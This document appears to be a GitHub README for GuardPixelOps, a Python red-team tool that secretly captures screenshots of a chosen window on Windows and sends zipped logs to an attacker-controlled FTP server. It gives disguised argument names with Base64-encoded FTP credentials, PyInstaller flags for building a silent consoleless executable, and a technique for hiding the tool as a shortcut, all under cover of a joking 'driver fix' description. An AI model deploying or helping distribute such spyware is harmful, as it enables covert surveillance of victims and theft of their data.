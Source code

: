 

### GuardPixelOps 🖥️🛡️

## Overview
GuardPixelOps is a powerful tool designed for Red Team operations and adversary simulations. This Python script focuses on Windows environments, specifically addressing issues sending screenshots. The tool offers functionalities for capturing screenshots and insecurely sending logs to a designated FTP server.

## DEMO
[https://github.com/nocerainfosec/GuardPixelOps/blob/main/demo/GuardPixelOps%20-%20Demo.mp4](https://github.com/nocerainfosec/GuardPixelOps/assets/105872185/c85991fe-3aa2-482a-8925-80e6c335158a)

## HIDE AS A SHORTCUT TECHNIQUE
[https://github.com/nocerainfosec/GuardPixelOps/blob/main/demo/GuardPixelOps%20-%20Demo02.mp4](https://github.com/nocerainfosec/GuardPixelOps/assets/105872185/7f939c51-dbe7-4b1f-b9a7-af0fa43f4c4e)

### Important Note: Encoding Information in Base64

Before using GuardPixelOps, please ensure that you encode the following information in Base64 format for the respective command-line arguments:

- `--winupdate`: Microsoft Relay Information
- `--wintoken`: Windows Token
- `--winversion`: Windows Version

Here's an example of how to encode information in Base64 using Python:

```bash
echo -n "your_information_here" | base64
```
Here's an example of how to encode information in Base64 using Powershell:

```bash
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("your_information_here"))
```

## Features
- **Automated Driver Fixes:** GuardPixelOps identifies and fixes broken drivers in the Windows environment. OF COURSE NOT! This is a joke!
- **Screenshot Capture:** The tool captures screenshots of the active window when a broken driver is detected, providing visual context for analysis. (You kidding me?! It takes screenshots based on the active Window!)
- **Secure Log Transmission:** Logs containing information are insecurely compressed and sent to a specified FTP server for analysis.
- **Background Operation:** GuardPixelOps operates silently in the background, periodically sending logs at regular intervals.

## How It Works
1. **Screenshot Grabbing:** Monitors the active window and captures screenshots when a specified window title is detected. The tool then saves the screenshots and logs the fixed driver information.
2. **Log Transmission:** Compresses the fixed driver logs into a zip file and securely transmits them to a designated FTP server for further analysis.
3. **Background Operation:** Runs as a background process, automatically sending logs at regular intervals.

## Usage
To use GuardPixelOps, provide the following command-line arguments:
- `--winupdate`: FTP Relay information. BASE64 Encoded! 🖥️
- `--wintoken`: Authentication User. BASE64 Encoded! 🖥️
- `--winversion`: Credentials. BASE64 Encoded! 🖥️
- `--regger`: Desired Window name. Plain Text

### Example Command:
```bash
python guardpixelops.py --winupdate <FTP_Relay_information> --wintoken <Authentication_User> --winversion <Credentials> --regger <Desired_Window_name>
```

## Setup
1. Clone the repository: `git clone https://github.com/your-username/guardpixelops.git`
2. Install dependencies: `pip install -r requirements.txt`
3. Run the script: `python guardpixelops.py`

### Compiling to .exe

To enhance portability and simplify distribution, you can compile GuardPixelOps into a standalone executable (.exe) file using [PyInstaller](https://www.pyinstaller.org/).

Ensure you have PyInstaller installed:

```bash
pip install pyinstaller
```

Navigate to the directory containing guardpixelops.py and run the following command in the command prompt:
```bash
pyinstaller --clean -w -F -i NONE "guardpixelops.py" --noconsole
```
Now, you can distribute and run GuardPixelOps as a standalone executable without requiring Python or additional dependencies.

### Folders and Logs
During the execution of GuardPixelOps, the script creates a folder structure within the WindowsFiles directory. Here's an overview:

WindowsFiles:
- `Updates`: Contains temporary files used during the update process.
- `Drivers`: Contains compressed driver backup files.
- `Logs`: The log file (logs-drivers.txt) is created in the same directory as the executable.
Make sure to check the logs for important information and any error messages, LOL.

Note: Adjust the command and paths as needed based on your preferences.




## Disclaimer
GuardPixelOps is intended for educational and research purposes only. Users are responsible for complying with applicable laws and regulations.


Feel free to contribute to the project by opening issues or submitting pull requests!

👾 Happy Red Teaming with GuardPixelOps! 👾
